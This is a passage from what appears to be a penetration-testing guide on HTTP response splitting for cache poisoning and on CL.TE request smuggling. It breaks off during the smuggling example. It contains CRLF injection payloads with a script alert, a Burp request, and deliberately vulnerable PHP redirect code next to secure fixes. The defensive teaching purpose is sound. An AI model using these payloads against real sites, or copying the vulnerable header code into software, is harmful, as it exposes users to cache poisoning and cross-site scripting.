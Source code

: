 **Tip**: Save response injection evidence in a report.

### 3. Test for Cache Poisoning

**Objective**: Check if splitting can poison web or proxy caches.

**Steps**:
1. Inject cache poisoning payloads:
   - Test: `?redir=/home%0d%0aContent-Type:%20text/html%0d%0a%0d%0a<script>alert(1)</script>`
   - Use Burp:
     ```http
     GET /redirect?redir=/home%0d%0aContent-Type:%20text/html%0d%0a%0d%0a<script>alert(1)</script> HTTP/1.1
     Host: example.com
     ```
2. Check cache behavior:
   - Revisit the page without payload (e.g., `/home`).
   - Look for injected content or XSS.
   - Test: `%0d%0aCache-Control:%20public,%20max-age=31536000`.
3. Verify cache headers:
   - Check `Cache-Control`, `ETag` in responses.
4. Clear cache (post-test):
   - Request cache purge if permitted.

**Example Vulnerable Code (PHP)**:
```php
$path = $_GET['path'];
header("Location: /page/$path");
```
Test: `?path=/home%0d%0aContent-Type:%20text/html%0d%0a%0d%0a<script>alert(1)</script>`
Result: Poisons cache with XSS.

**Example Secure Code (PHP)**:
```php
$path = str_replace(["\r", "\n"], "", $_GET['path']);
header("Location: /page/" . urlencode($path));
```
Test: No poisoning.

**Remediation**:
- Validate cache inputs:
  ```php
  if (preg_match('/[\r\n]/', $path)) die("Invalid input");
  ```
- Set strict cache headers:
  ```php
  header("Cache-Control: no-store, no-cache");
  ```

**Tip**: Save cache poisoning evidence in a report.

### 4. Test for HTTP Request Smuggling (CL.TE)

**Objective**: Verify if Content-Length and Transfer-Encoding mismatches allow request smuggling.

**Steps**:
1. Inject CL.TE payloads:
   - Use Burp Repeater:
     ```http
     POST / HTTP/1.1
     Host: example.com
     Content-Length: 0
     Transfer-Encoding: chunked
